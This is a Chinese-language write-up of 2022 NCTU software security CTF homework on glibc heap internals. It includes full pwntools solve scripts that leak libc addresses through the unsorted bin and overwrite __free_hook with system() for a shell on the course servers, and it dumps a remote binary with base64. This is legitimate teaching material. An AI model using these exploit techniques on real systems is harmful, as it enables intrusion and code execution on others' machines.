



# 2022 交大程式安全 HW7 writeup

## [LAB] heapmath
這題是問答題，會有好幾個關卡，答對所有關卡即可拿到 flag\
不過當初在解這題的時候，由於時間限制很短，會來不及作答\
所以很難手打去解，因此我是一關一關照順序寫成 pwntools 腳本去解

首先是第一關，題目會 malloc 7 次隨機大小的記憶體空間，然後再以隨機順序 free 掉\
並且也列出被放到 Tcache 0x20 subbin 的 chunk


從講師的投影片中可以知道這題考的概念是這個


當 ```malloc size - 0x8 + 0x10``` 介於 0x11 到 0x20 之間\
且 Tcache 0x20 subbin 未滿 7 個 chunk 時，chunk 被 free 時會被放到 0x20 subbin\
也就是說拿到的 chunk size = 0x20，而這題問的是哪些 chunk 被 free 時會被放到 0x30 subbin\
因此只要找出 ```malloc size - 0x8 + 0x10``` 介於 0x21 到 0x30 之間的 chunk 即可 (chunk size = 0x30)\
而順序的話，Tcache 採取的方式為 FILO (first in last out，先進去的後出來)\
所以後面被 free 掉的會被放在 subbin 的最前面 (後進去的會先出來)

接著是第二關，問的是哪些 chunk 被 free 時會被放到 0x40 subbin

那麼也是比照相同的方式，找出 ```malloc size - 0x8 + 0x10``` 介於 0x31 到 0x40 之間的 chunk 即可\
也就是拿到的 chunk size = 0x40，而被 free 的順序在後面的 chunk 會被放在 subbin 的最前面

接著是第三關，題目會給定其中一個 chunk 的 base address，問另一個 chunk 的 base address 是多少 

這個部分就比較難看出來了，而題目有給原始的 C code\
於是我加上這段 code 把 A-G 的 address 印出來看看
```c
for(int i = 0; i < 7; i++)
    printf("%p\n", tcache_chk[i]); // print address A-G
```

多次嘗試後也會發現它的規律和前面兩題是一樣的，也就是說\
下一個 chunk 的 base address = 當前 chunk 的 base address + 當前 chunk 拿到的 chunk size\
拿到的 chunk size 會用 ```malloc size - 0x8 + 0x10 ``` 來計算，會分成以下兩種情況\
1. 若 ```malloc size - 0x8 + 0x10 ``` 為 0x10 的整數倍時\
chunk size = ```malloc size - 0x8 + 0x10 ```
   
2. 若 ```malloc size - 0x8 + 0x10 ``` 不為 0x10 的整數倍時，會套用前面說的對齊 0x10 的方式\
chunk size = ```((malloc size - 0x8 + 0x10) // 10 + 1) * 0x10```
(這邊的 // 10 是指除以 10 取商)

然後一個一個用 ```下一個 chunk 的 base address = 當前 chunk 的 base address + chunk size```
算出目標的位址

接著是第四關，題目會 malloc 型別為 unsigned long 的 X 和 Y\
然後將 Y 的其中一個位置裡面存的內容 assign 為 0xdeadbeef\
並問說這個位置以 X 的 index 來表示的話會是多少

實際用 gdb 來看程式執行到這邊時，heap 的內容是如何 (這邊是另外跑一個)


可以看出記憶體的 layout 的確如同講師投影片所寫的\
在 X[0] 與 Y[0] 前面會有 0x10 bytes (16 bytes) 是在存 prev_size / data 和 size 這兩個欄位

而 unsigned long 型別的大小為 8 bytes\
因此 Y 的某個 index 以 X 的 index 來表示的話就是 ```((X 的 malloc size) / 8) + 2 + (Y 的 index)```

接著是第五關，延續第四關將 X 和 Y free 掉後，給定 Y 的 base address，問 Y 的 fd 是多少

用 gdb 來看程式執行到這邊時，heap 的 memory layout 長怎樣

下 ```heap``` 指令

查看 X 和 Y 所在的 chunk，紅框處即為 y 的 fd，指向 X[0]

講師的投影片也有寫到

Y 的同一個 bin 裡 (Tcache 0x70 subbin) 的下一個 free chunk 確實是 X，所以會指向 X[0]

因此第五關的答案計算方式為 ```(Y 的 base address) - (X 的 malloc size) - 0x10```

接著是第六關，與第五關雷同，一樣是求 Y 的 fd

原本 X 和 Y 被 free 後是被放到 Tcache 裡\
不過這題它先把 Tcache 的 0x50 subbin 填滿，Tcache 滿了後 X 和 Y 就會被放到 fastbin 裡而不是 Tcache 裡



用 gdb 來看程式執行到這邊時，heap 的 memory layout 長怎樣

查看 fastbins，確實有兩個 chunk，也就是 X 和 Y

紅框處為 Y 的 fd，而這次沒有指向 X[0]，反而是指向 X 的 header 的 prev_size / data 欄位

從講師的投影片裡可以知道 fastbin 裡的 fd 是指向 header 而不是 data\
而上一關因為是被放到 Tcache，所以他才會指向 data，這就是這一關和上一關的差異

因此第六關的答案計算方式為 ```(Y 的 base address) - (X 的 malloc size) - 0x20```

綜合每一關的答案計算方式後，最後的解題腳本如下
```python
# heapmath/solve.py
from pwn import *

context.arch = 'amd64'
#context.terminal = ['tmux', 'splitw', '-h']
#r = process('./chal')
r = remote('edu-ctf.zoolab.org', 10006)

def recv_lines(lines):
    for _ in range(lines):
        print(r.recvline().decode().strip())

# Q1
recv_lines(1)
m = {}
for i in range(7):
    alpha = r.recvline().decode().strip()
    print(alpha)
    alpha = alpha[-4:-2]
    m[chr(ord('A') + i)] = alpha
free_list = []
for _ in range(8):
    free = r.recvline().decode().strip()
    print(free)
    free_list.append(free[-3:-2])
free_list.pop()
print(r.recvuntil(b': ').decode(), end='')
recv_lines(1)
print(r.recvuntil(b': ?\n> ').decode(), end='')
free_list.reverse()
answer1 = ''
for i in free_list:
    value = int(m[i], 16) - 0x8 + 0x10
    if 0x21 <= value <= 0x30:
        answer1 += i + ' --> '
answer1 += 'NULL'
print(answer1)
r.sendline(answer1.encode())
recv_lines(1)

# Q2
print(r.recvuntil(b': ?\n> ').decode(), end='')
answer2 = ''
for i in free_list:
    value = int(m[i], 16) - 0x8 + 0x10
    if 0x31 <= value <= 0x40:
        answer2 += i + ' --> '
answer2 += 'NULL'
print(answer2)
r.sendline(answer2.encode())

# Q3
print(r.recvuntil(b'assert( ').decode(), end='')
alpha1 = r.recv(1).decode()
print(alpha1, end='')
print(r.recvuntil(b' == 0x').decode(), end='')
alpha1_addr = r.recvline().decode()
print(alpha1_addr, end='')
alpha1_addr = alpha1_addr[:-4]
alpha2 = r.recv(1).decode()
print(alpha2, end=' ')
print(r.recvline().decode().strip())
print(r.recvuntil(b'> ').decode(), end='')
alpha = alpha1
answer3 = int(alpha1_addr, 16)
while True:
    chunk_size = int(m[alpha], 16) - 0x8 + 0x10
    if chunk_size % 0x10 != 0:
        chunk_size = ((chunk_size // 0x10) + 1) * 0x10
    answer3 += chunk_size
    alpha = chr(ord(alpha) + 1)
    if alpha == alpha2:
        break
r.sendline(hex(answer3).encode())
print(hex(answer3))

# Q4
recv_lines(3)
print(r.recvuntil(b'malloc(0x').decode(), end='')
X_malloc_size = r.recv(2).decode()
print(X_malloc_size, end='')
recv_lines(2)
print(r.recv(2).decode(), end='')
Y_address = r.recvline().decode()
print(Y_address, end='')
Y_address = Y_address.split('] =')[0]
print(r.recvline().decode().strip())
print(r.recvuntil(b'> ').decode(), end='')
answer4 = str(int(Y_address) + int(X_malloc_size, 16) // 8 + 2)
#gdb.attach(r)
r.sendline(answer4.encode())
print(answer4)

# Q5
recv_lines(5)
print(r.recvuntil(b'assert( Y == 0x').decode(), end='')
Y_address = r.recvline().decode()
print(Y_address)
Y_address = Y_address[:-4]
recv_lines(1)
print(r.recv(2).decode(), end='')
answer5 = hex(int(Y_address, 16) - int(X_malloc_size, 16) - 0x10).encode()
r.sendline(answer5)
print(answer5.decode())

# Q6
recv_lines(5)
print(r.recvuntil(b'(0x').decode(), end='')
X_malloc_size = r.recv(2).decode()
print(X_malloc_size, end='')
recv_lines(5)
print(r.recvuntil(b'assert( Y == 0x').decode(), end='')
Y_address = r.recvline().decode()
print(Y_address)
Y_address = Y_address[:-4]
recv_lines(1)
print(r.recvuntil(b'> ').decode(), end='')
answer6 = hex(int(Y_address, 16) - int(X_malloc_size, 16) - 0x20).encode()
r.sendline(answer6)
print(answer6.decode())
recv_lines(2)
```

成功得出 flag 為 ```FLAG{owo_212ad0bdc4777028af057616450f6654}```

## [LAB] babynote

題目能進行四種操作，add、edit、show、del\
1. add: 指定 index，新增一個結構，接著 malloc 記憶體，將 name 欄位內容設成自己指定的字串\
每一個結構裡面除了 name 之外還會有 data pointer，add 的時候 data 會被初始化為 NULL\
2. edit: 指定 index，編輯結構中的 data 內容，可用來指定或修改結構中的 data pointer 裡存的內容\
如果是第一次使用的話會先 malloc 一段記憶體空間給 data\
接著將結構中的 data pointer 裡存的內容設為自己指定的內容\
1. show: 指定 index，印出結構中的 name 和 data 內容\
2. del: 指定 index，刪除結構，free 結構中的 data pointer 以及整個結構

而這題可利用 unsorted bin 洩漏 libc address 的漏洞獲取 __free_hook 和 system() 的 address\
配合 overflow 將 chunk 裡的 data pointer 覆寫為 __free_hook 的 address\
然後將 __free_hook 指向的內容竄改為 system() 的 address，最後執行程式拿到 shell

我是按照講師投影片上的步驟來解，這邊先附上解題腳本，以方便解說
```python
# babynote/solve.py
from pwn import *

context.arch = 'amd64'
#context.terminal = ['tmux', 'splitw', '-h']
#r = process('./chal')
r = remote('edu-ctf.zoolab.org', 10007)

def add_note(index, name):
    r.sendlineafter(b'> ', b'1')
    r.sendlineafter(b'index\n> ', str(index).encode())
    r.sendlineafter(b'note name\n> ', name)

def edit_data(index, size, data):
    r.sendlineafter(b'> ', b'2')
    r.sendlineafter(b'index\n> ', str(index).encode())
    r.sendlineafter(b'size\n> ', str(size).encode())
    r.sendline(data)

def del_note(index):
    r.sendlineafter(b'> ', b'3')
    r.sendlineafter(b'index\n> ', str(index).encode())

add_note(0, b'A'*8)
edit_data(0, 0x418, b'a'*0x418)

add_note(1, b'B'*8)
edit_data(1, 0x18, b'b'*0x18)

add_note(2, b'C'*8)
del_note(0)

r.sendlineafter(b'> ', b'4')
r.recvuntil(b'data: ')
main_arena_96 = u64(r.recv(6).ljust(8, b'\x00'))
#print(hex(main_arena_96))
free_hook = main_arena_96 + 0x2268
#print(hex(free_hook))
system = main_arena_96 - 0x19a950
#print(hex(system))
#gdb.attach(r)

data = b'/bin/sh\x00'.ljust(0x10, b'B')
fake_chunk = flat(
    0, 0x21,
    b'C'*0x10,
    free_hook,
)

edit_data(1, 0x38, data + fake_chunk)
edit_data(2, 0x8, p64(system))
del_note(1)
r.interactive()
```

步驟一，先構造結構，必須要構造一個之後被 free 後會被放入 unsorted bin 的 chunk\
而這邊構造結構 A 的時候，指定 malloc data 的大小為 0x418\
目的就是讓這個 chunk 被 free 時會被放到 unsorted bin 裡\
而圖中的 void *data 會指向 malloc 的 data 內容的位置

因為 chunk size 必須要大於 0x410，被 free 時才會被放到 unsorted bin
必須要滿足 ```chunk size - 0x8 + 0x10 > 0x410``` 也就是 ```chunk size > 0x408```

用 gdb 實際測試被 free 時的情況，也能驗證確實是這樣
```edit_data(0, 0x408, b'a'*0x408)``` -> 改成 malloc 0x408 bytes 時會被放入 Tcache 

```edit_data(0, 0x409, b'a'*0x409)``` -> 改成 malloc 0x409 bytes 時會被放入 unsorted bin


步驟二，delete 結構 A 後，void *data 指向的位置的內容會變為 unsorted bin 的 fd\
因為 bin 裡面只有目前這一個 chunk，所以 fd 會指向 main_arena 的結構

用 gdb 實際測試，發現 fd 會指向 main_arena+96 的位址\
而由於 show() 原本會印出 void *data 指向的位置存的內容\
這邊存的內容已變為 unsorted bin fd，因此就能直接印出 main_arena+96 的位址

雖然程式每次執行時，絕對位址會不同\
不過 main_arena+96 跟 __free_hook 或 system 之間的相對位址會是固定的\
因此可利用 main_arena+96 的位址去找 __free_hook 和 system 的位址\
不過我這邊採取的方式和講師投影片上寫的不同\
我是用 gdb 去找 main_arena+96 與 __free_hook 之間的相對位址\
以及 main_arena+96 與 system 之間的相對位址

相減即可求出相對位址

因此 ```__free_hook 的位址 = main_arena+96 的位址 + 0x2268```
```system 的位址 = main_arena+96 的位址 - 0x19a950```

步驟三，構造 fake chunk 並利用 edit 修改結構 B 的 data 內容去 overflow 結構 C 的 void *data\
將結構 C 的 void *data 覆寫為 __free_hook 的位址\
這邊構造 fake chunk 的時候會用 flat 將內容以 8 bytes 對齊

這裡使用的漏洞如下

由於 __free_hook 一般時候會指向 NULL\
若將其內容改為其他 function pointer 即可改變 free 時的行為，free 時會變為執行對應的 function\
用 edit 將結構 C 的 data 內容修改為 system() 的位址\
相當於將已被覆寫進去的 __free_hook 指向的位置的內容竄改為 system() 的位址\
因此 __free_hook 指向的位置的內容會從 NULL 變為 system() 的位址

步驟四，最後 free 掉結構 B 的 data，由於內容為 'bin/sh'\
因此 free 時變為執行 system('bin/sh')，成功拿到 shell

執行解題腳本，成功拿到 shell

下 ```cat /home/chal/flag``` 指令\
成功得出 flag 為 ```FLAG{babynote^_^_de9187eb6f3cbc1dce465601015f2ca0}```

## [HW] babyums (flag2)
接下來的 babyums 兩題 HW，由於 babyums 的 flag2 被放在 /home/chal 目錄裡\
必須要拿到 shell，跟上一題 babynote 題型一樣，因此先解 flag2 這題\
而這題跟 babynote 的差別在於，babyums 的結構多了 0x10 bytes 的 password\
以及一開始程式多出了會先將 admin 的帳號密碼 add 進去 (密碼就是 flag1)\
利用 fake chunk 去 overflow data 的部分，需要再多蓋 0x10 bytes 的 password


直接拿 babynote 那題的 code 來撰寫解題腳本，有做修改的地方如下\
1. 將 'note name' 字串 改為 'username' 字串\
2. 由於程式已先將 index 為 0 的 admin 帳號密碼 add 進去\
因此我們的 index 全部順延 1 個位置，改為從 1 開始而不是從 0\
3. add 的部分多了 password，所以 flat 構造 fake chunk 的部分\
必須再多放 0x10 bytes 到 username 的後面才能成功 overflow 到想蓋寫的地方\
4. fake chunk 構造完後，edit 結構 B 時的大小記得要多加 0x10 bytes，才能成功蓋到目標
 ```python
# babyums2/solve.py
from pwn import *

context.arch = 'amd64'
#context.terminal = ['tmux', 'splitw', '-h']
#r = process('./chal')
r = remote('edu-ctf.zoolab.org', 10008)

def add_note(index, username, password):
    r.sendlineafter(b'> ', b'1')
    r.sendlineafter(b'index\n> ', str(index).encode())
    r.sendlineafter(b'username\n> ', username)
    r.sendlineafter(b'password\n> ', password)

def edit_data(index, size, data):
    r.sendlineafter(b'> ', b'2')
    r.sendlineafter(b'index\n> ', str(index).encode())
    r.sendlineafter(b'size\n> ', str(size).encode())
    r.sendline(data)

def del_note(index):
    r.sendlineafter(b'> ', b'3')
    r.sendlineafter(b'index\n> ', str(index).encode())

add_note(1, b'A'*8, b'1'*8)
edit_data(1, 0x418, b'a'*0x418)

add_note(2, b'B'*8, b'2'*8)
edit_data(2, 0x18, b'b'*0x18)

add_note(3, b'C'*8, b'3'*8)
del_note(1)
```
```python
r.sendlineafter(b'> ', b'4')
r.recvuntil(b'data: ')
main_arena_96 = u64(r.recv(6).ljust(8, b'\x00'))
#print(hex(main_arena_96))
free_hook = main_arena_96 + 0x2268
#print(hex(free_hook))
system = main_arena_96 - 0x19a950
#print(hex(system))
#gdb.attach(r)

data = b'/bin/sh\x00'.ljust(0x10, b'B')
fake_chunk = flat(
    0, 0x21,
    b'C'*0x10,
    b'C'*0x10, # add more 0x10 bytes for password
    free_hook,
)

edit_data(2, 0x48, data + fake_chunk) # send more 0x10 bytes for password
edit_data(3, 0x8, p64(system))
del_note(2)
r.interactive()
```

下 ```cat /home/chal/flag``` 指令
成功得出 flag2 為 ```FLAG{crocodile_9d7d8f69be2c2ab84721384d5bda877f}```

## [HW] babyums (flag1)
至於 flag1 的部分藏在這邊

程式執行時會先 add admin 的帳號密碼，這時 flag1 會被放入 password 裡\
因此 flag1 會在執行時被藏在記憶體中\
雖然程式碼有直接 define 出來，但是實際用 strings 之類的指令來看，也沒有輸出 flag 字串\
所以只好從記憶體去撈 flag1 了，不過這題既然都已經拿到 shell 了\
那麼就使用 pwn 第三週講師上課說的方式，拿到 shell 後從檔案撈即可

也就是說要正確的把 server 上的 chal 執行檔拿回來\
但是試了一下後，似乎沒有可以傳送檔案或遠端複製檔案的指令\
既然如此，就想到可以用 cat 配合 base64 來 dump 出檔案內容\
雖然 cat 預設只能 dump 出檔案中的可印字元\
而 chal 是執行檔，會包含許多不可印字元，看似好像無法直接用 cat 印出檔案內容\
但其實可以把輸出結果轉為 base64，base64 的特色就是不管輸入為何，輸出都是可印字元\
因此下 ```cat /home/chal/chal | base64```，將 cat 的輸出當作 base64 指令的輸入，轉為可印字元

將輸出結果複製下來，存成 chal_base64.txt 檔案\
接下來只要把檔案內容用 base64 decode 回去就能還原出 server 上原始的 chal 執行檔內容了\
撰寫 python 腳本 decode 回原本的執行檔 chal_remote
```python
# babyums1/dump_chal.py
import base64

with open('chal_base64.txt', 'r') as f:
    s = f.read()
with open('chal_remote', 'wb') as f:
    f.write(base64.b64decode(s))
```
用 file 指令檢查一下，確實變回 ELF 64 bits 執行檔了，而且也能正常跑

接下來用 gdb 查看程式一開始 add 進去的 admin password 是什麼，password 的內容即為 flag1\
查看 heap 的內容


成功在 chunk 看到 admin 的 username 和 password，因此 flag1 就是 password 字串\
用 python 將 password 的 hex data 轉為字串
```python
# babyums1/solve.py
print((bytes.fromhex('3738437b67616c66')[::-1] + bytes.fromhex('7d3336')[::-1]).decode())
```
成功得出 flag1 為 ```flag{C8763}```